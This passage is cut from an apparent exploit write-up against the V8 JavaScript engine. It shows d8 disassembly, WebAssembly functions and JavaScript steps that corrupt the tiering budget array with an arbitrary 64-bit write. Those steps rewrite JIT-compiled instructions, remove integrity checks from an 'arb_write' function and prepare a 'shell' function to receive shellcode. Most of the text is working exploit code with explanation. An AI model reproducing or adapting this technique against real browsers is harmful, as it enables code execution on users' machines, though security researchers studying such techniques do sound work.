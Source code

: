 ```wasm
    i32.const 1
    i32.const 0xdead
    i32.store
  )
)
```

```javascript
V8 version 11.4.0 (candidate)
d8> nop()
[truncated]
0x1a787102975b    1b  488b868f000000       REX.W movq rax,[rsi+0x8f]
0x1a7871029762    22  8b08                 movl rcx,[rax]
0x1a7871029764    24  83e91b               subl rcx,0x1b
[truncated]
d8> nop2()
[truncated]
0x1a78710297f5    35  488b868f000000       REX.W movq rax,[rsi+0x8f]
0x1a78710297fc    3c  8b5008               movl rdx,[rax+0x8]
0x1a78710297ff    3f  83ea35               subl rdx,0x35
[truncated]
```

And in the exploit, we will subtract `0x1b` from `0x35`:

```javascript
v8_write64(wasm_instance_addr + tiering_budget_array_off, sub_instruction_addr);
nop(); // transform "subl rdx,0x35" in "subl rdi,0x7"
```

And after that, we can subtract values more assertively. Let's create two more functions in WebAssembly, `arb_write`, which will be the function from which we'll remove the integrity checks, and `shell`, a "nop" where we'll copy our shellcode:

```wasm
(func $main (export "arb_write")
  (param $offset i32)  ;; Offset within memory
  (param $value i64)   ;; 64-bit integer to write
  
  (i64.store
    (local.get $offset)  ;; Get the memory offset
    (local.get $value)   ;; Get the i64 value
  )
)
(func (export "shell")
  nop
)
```

Now, with our `subl [arb address], 0x7`, let's replace some instructions in `arb_write`:

```javascript
v8_write64(wasm_instance_addr + tiering_budget_array_off, shr_instruction_addr - 4n);
nop2(); // transform "shrq rcx, 24" in "shr r9d, 0x18"

v8_write64(wasm_instance_addr + tiering_budget_array_off, add_instruction_addr - 4n);
nop2(); // transform "addq rcx,r14" in "add ecx, esi"
v8_write64(wasm_instance_addr + tiering_budget_array_off, add_instruction_addr - 4n + 2n);
nop2(); // transform "add ecx, esi" in "add eax,edi"
v8_write64(wasm_instance_addr + tiering_budget_array_off, add_instruction_addr - 4n + 2n);
nop2(); // transform "add eax,edi" in "add eax, eax"

v8_write64(wasm_instance_addr + tiering_budget_array_off, orig_sub_addr);
```

